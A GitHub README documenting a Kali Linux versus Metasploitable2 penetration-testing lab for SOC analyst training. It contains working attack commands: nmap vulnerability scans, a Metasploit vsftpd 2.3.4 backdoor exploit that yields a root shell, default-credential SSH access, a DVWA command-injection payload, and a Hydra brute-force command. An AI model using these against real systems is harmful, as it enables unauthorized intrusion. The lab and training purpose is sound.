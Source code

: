 # Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## 📋 Table of Contents

- [Lab Setup](#lab-setup)
- [Phase 1: Reconnaissance](#phase-1-reconnaissance)
  - [Basic Nmap Scan](#basic-nmap-scan)
  - [Service Version Detection](#service-version-detection)
  - [Vulnerability Detection](#vulnerability-detection)
- [Phase 2: Exploitation](#phase-2-exploitation)
  - [FTP Exploit – vsftpd 2.3.4 Backdoor](#ftp-exploit--vsftpd 2.3.4 backdoor-cve-2011-2523)
  - [SSH Exploit](#ssh-exploit)
  - [HTTP Exploit – DVWA Command Injection](#http-exploit--dvwa-command-injection)
  - [HTTP Brute-Force Attack – DVWA Login](#http-brute-force-attack--dvwa-login)

---

## 🛠️ Lab Setup

| Component    | Details                  |
|--------------|--------------------------|
| Attacker     | Kali Linux (UTM VM)      |
| Target       | Metasploitable2 (UTM VM) |
| Network Mode | Shared NAT / Bridged     |
| Connectivity | Confirmed via ping       |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

---
### Scan Files
These are the original Nmap scan output files I used for analysis:

* [basic-scan.txt](./basic-scan.txt)
* [version-scan.txt](./version-scan.txt)
* [vuln-scan.txt](./vuln-scan.txt)

---

### Basic Nmap Scan

```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
**Summary of Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
**Summary:** 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### FTP Exploit - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

**Result:** 
* Successful shell access as `root`
* Verified with `whoami`


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

**Result:** 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  `whoami`

---

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

**Lessons Learned:**
Modern SSH clients disable depreciated algorithms by default. Lab environments often require these legacy options to connect. SOC teams should watch for deprecated algorithm negotiation in logs as potential indicators of legacy or malicious activity.


---

### HTTP Exploit – DVWA Command Injection

**Target URL:** `http://192.168.64.3/dvwa/vulnerabilities/exec/`
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Recon Tool Used:** [Nikto](https://github.com/sullo/nikto)  
**Scan Output:** [nikto-scan.txt](./nikto-scan.txt)

Nikto was used to identify accessible directories and common web vulnerabilities. This helped uncover `/phpinfo.php` and `/test/`, indicating potential weak points in the Apache web server.

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

***Result:***
* Successfully executed `whoami`
* Confirmed remote command execution vulnerability


---

### HTTP Brute-Force Attack – DVWA Login

**Target URL:** `http://192.168.64.3/dvwa/login.php` 
**Login Type:** HTTP POST Form  
**Tool Used:** Hydra

**Command:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 192.168.64.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

**Result:**
```[80][http-post-form] host: 192.168.64.3   login: admin   password: password```

**Summary:** 
* Performed a dictionary brute-force attack
* Login credentials were discovered
* Demonstrated the importance of strong password credential policies


**SOC Analyst Takeaways**
Brute-force activity can be detected via repeated login failures, especially to web apps or SSH
Exploits often rely on outdated software or weak credentials
Key log indicators: POST attempts to login pages, multiple SSH attempts, legacy crypto negotiations
Defenses: Rate limiting, MFA, updated services, IDS/IPS, log monitoring
